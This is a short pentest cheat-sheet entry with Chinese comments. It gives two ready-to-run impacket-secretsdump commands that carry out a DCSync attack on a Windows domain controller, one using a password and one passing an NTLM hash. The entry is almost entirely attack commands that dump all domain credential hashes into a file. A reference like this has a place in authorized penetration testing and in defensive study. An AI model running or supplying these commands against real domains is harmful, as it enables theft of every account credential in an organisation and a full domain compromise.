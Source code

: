 % movement, dumping creds, dcsync, impacket, secretsdump, creds

# 使用账号密码进行DCSync攻击
```sh
impacket-secretsdump -outputfile 'dcsync' -dc-ip "$DC_IP" "$DOMAIN"/"$USER":"$PASSWORD"@"$DC_HOST"
```

% movement, dumping creds, dcsync, impacket, secretsdump, ntlm hash

# 使用NTLM hash进行DCSync攻击
```sh
impacket-secretsdump -outputfile 'dcsync' -hashes :"$NT_HASH" -dc-ip "$DC_IP" "$DOMAIN"/"$USER"@"$DC_HOST"
```